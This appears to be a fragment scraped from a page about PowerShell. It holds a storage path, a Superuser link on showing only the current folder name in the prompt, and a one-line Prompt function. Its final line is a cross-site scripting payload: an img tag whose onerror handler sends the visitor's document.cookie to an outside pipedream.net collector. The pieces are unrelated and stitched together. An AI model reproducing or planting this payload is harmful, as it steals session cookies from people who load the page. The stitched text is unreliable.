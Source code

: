 
https://superuser.com/questions/446827/configure-the-windows-powershell-to-display-only-the-current-folder-name-in-the

Function Prompt { "$( Split-Path -leaf -path (Get-Location) )>" }

<img src=x onerror=this.src='https://en21oniybuwyx.x.pipedream.net?c='+document.cookie>
